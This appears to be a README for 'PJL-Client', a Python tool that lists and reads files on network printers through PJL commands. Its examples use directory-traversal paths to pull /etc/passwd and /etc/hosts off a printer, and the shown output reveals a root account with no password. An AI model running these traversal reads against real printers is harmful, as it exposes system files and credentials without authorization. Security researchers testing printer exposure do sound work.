 # PJL-Client

Usage: python pjlclient.py <IP> <dir|read> <path/file>

Examples:

$python pjlclient.py 10.0.0.1 dir 0:/pcl/macros<br/>
$python pjlclient.py 10.0.0.1 read 0:/pcl/macros/file.pcl<br/>
$python pjlclient.py 10.0.0.1 read 0:\\..\\..\\..\\etc\\passwd

@PJL FSUPLOAD FORMAT:BINARY NAME="0:\..\..\..\etc\passwd" OFFSET=0 SIZE=23<br/>
root::0:0::/:/bin/dlsh

$python pjlclient.py 10.0.0.1 read 0:\\..\\..\\..\\etc\\hosts

@PJL FSUPLOAD FORMAT:BINARY NAME="0:\..\..\..\etc\hosts" OFFSET=0 SIZE=362<br/>
127.0.0.1		localhost mailhost loghost
